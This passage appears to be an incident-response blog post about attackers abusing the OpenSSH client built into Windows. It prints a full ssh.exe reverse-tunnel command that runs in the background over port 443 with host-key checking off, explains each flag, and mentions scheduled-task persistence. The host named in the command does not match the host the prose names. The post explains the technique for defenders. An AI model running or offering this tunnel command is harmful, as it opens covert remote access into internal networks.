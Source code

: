 
Credit (original art): Locust Years
In many cases these binaries are well known, the techniques documented, and (hopefully) the malicious use is detectable by security products or threat hunting processes. However, in a recent incident response engagement, we found a LOLBAS technique that did not fall in that category of well documented. In fact, the technique does not currently appear to be in the MITRE ATT&K framework. 

The scenario was that the client had users report odd behavior on their laptops. There were fraudulent purchases made on personal accounts from their work system when they were not at work at the time.  When initially investigating, the client determined that there were Remote Desktop Protocol (RDP) connections from their domain controllers to the endpoints in question. Understandably, the client became very concerned and contacted BHIS for Incident Response assistance. 

We deployed Velociraptor in the environment and started analyzing network connections to the internet. We found that on a handful of Windows servers, there was a very suspicious Secure Shell (SSH) command connected to an external IP address. 

But wait! SSH on a Windows server? Isn’t that a Linux thing?   

We have found on both penetration tests and incident response engagement that many still do not realize the impact of the decision Microsoft made in 2018 to include OpenSSH in Windows Server and Desktop OSes. 

The old systems administrator in me likes the decision and thinks, “it’s about time I do not need a third party SSH client.” But the security analyst in me knows that SSH is an amazingly powerful and versatile tool. Threat actors know its power and versatility too. It is more capable than just logging in to a remote server and interactively running commands. 

Take the command we found during this incident investigation for example: 

ssh.exe sshtunnel@blackhillsinfosec.com -f -N -R 50000 -p 443 -o StrictHostKeyChecking=no 

In this SSH command, the attacker was establishing a SSH connection to the remote server at evil.com with a very specific intent in mind — a reverse tunnel into the victim network so that they can run their own commands against internal systems. This is accomplished with the flags used in this particular command: 

-f: The SSH command runs in the background. Used by the attacker to obfuscate their presence.   
-N: Do not execute a remote command. This is useful when just forwarding ports.
-R: Specifies that the given port on the remote host is to be forwarded to the local host and port on the victim network. This works by allocating a socket to listen to a port on the remote side and whenever a connection is made to this port, the connection is forwarded over the secure channel and a connection is made to victim machine.  This makes it a SOCKS proxy. 
-p: The port used to connect outbound from the internal network to the remote host, in this case, TCP 443, commonly associated with HTTPS, not SSH. 
-o: Options for which there is no specific command line switch, in this case StrictHostKeyChecking=no.
The StrictHostKeyChecking=no option is used so that when the command is run, the SSH client does not ask to verify the server host key… you know, that message we all just answer ‘yes’ to when connecting to an SSH server. But why would the attacker do this? 

They wanted to avoid that interactive prompt in a new SSH command from a new host because of persistence. There was a scheduled task that ran a batch file stored in C:\Windows\Temp that was similarly named to a valid Windows DLL. 

Some of you may be thinking, “What about the password prompt?” when SSH connects. Others may be thinking that the attackers solved that interactive password prompt by dropping an SSH private key on the system… That is what I thought too.   
